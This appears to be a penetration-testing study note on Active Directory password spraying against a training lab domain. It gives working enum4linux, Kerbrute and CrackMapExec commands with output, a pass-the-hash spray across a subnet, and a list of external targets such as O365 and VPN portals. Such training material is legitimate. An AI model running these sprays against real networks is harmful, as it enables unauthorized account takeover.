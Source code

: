 # Internal Password Spraying

This is a crucial concept to master because it allows us to gain inital domain access. However, it must be approached with caution.

## Linux

### Kerbrute:

Initially, we can <mark style="color:yellow;">obtain valid users</mark> via <mark style="color:yellow;">Enum4Linux</mark> and place the output in a file called users.txt:

```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" >> users.txt
```

Now, we can <mark style="color:yellow;">passwordspray</mark> with <mark style="color:yellow;">Kerbrute</mark>:

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

### Using CrackMapExec and Filtering Logon Failures

```
sudo crackmapexec smb 172.16.5.5 -u users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

We can then use CME to validate these credentials quickly:

```
sudo crackmapexec 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

## Local Admin Spraying with CrackMapExec

* <mark style="color:yellow;">There may be a case where you have obtained the NTLM hash for the local administrator from the local SAM database</mark>
* <mark style="color:yellow;">In this case, you can use this hash to spray against the whole subnet to hunt for administrator accounts with the same password set</mark>

```
sudo crackmapexec --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## Windows

### Using DomainPasswordSpray.ps1

{% embed url="https://github.com/dafthack/DomainPasswordSpray" %}

* <mark style="color:yellow;">This tool is extremely COOL</mark>

External Password Spraying

While outside the scope of this module, password spraying is also a common way that attackers use to attempt to gain a foothold on the internet. We have been very successful with this method during penetration tests to gain access to sensitive data through email inboxes or web applications such as externally facing intranet sites. Some common targets include:

* Microsoft 0365
* Outlook Web Exchange
* Exchange Web Access
* Skype for Business
* Lync Server
* Microsoft Remote Desktop Services (RDS) Portals
* Citrix portals using AD authentication
* VDI implementations using AD authentication such as VMware Horizon
* VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
* Custom web applications that use AD authentication
